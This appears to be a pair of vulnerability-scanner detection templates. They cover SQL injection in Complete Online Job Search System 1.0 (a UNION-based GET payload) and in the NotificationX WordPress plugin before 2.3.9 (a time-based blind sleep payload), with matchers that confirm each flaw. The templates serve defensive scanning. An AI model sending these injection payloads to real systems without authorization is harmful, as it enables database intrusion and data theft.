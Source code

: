 # Complete Online Job Search System 1.0 - SQL Injection
## Description
- Complete Online Job Search System 1.0 contains a SQL injection vulnerability via /eris/index.php?q=category&search=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,sqli,jobsearch
## Requests
- Method - GET
### URL
- {{BaseURL}}/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,md5({{num}}),15,16,17,18,19--+
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

---
# NotificationX WordPress plugin < 2.3.9 - SQL Injection
## Description
- The NotificationX WordPress plugin before 2.3.9 does not sanitise and escape the nx_id parameter before using it in a SQL statement, leading to an Unauthenticated Blind SQL Injection.

- severity - critical
- tags - cve2022,wordpress,wp-plugin,wp,sqli,notificationx,wpscan,cve
## Requests
### Step - 1
```
@timeout: 15s
POST /?rest_route=/notificationx/v1/analytics HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

nx_id=sleep(6) -- x

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(body, "\"data\":{\"success\":true}")
- condition - and

---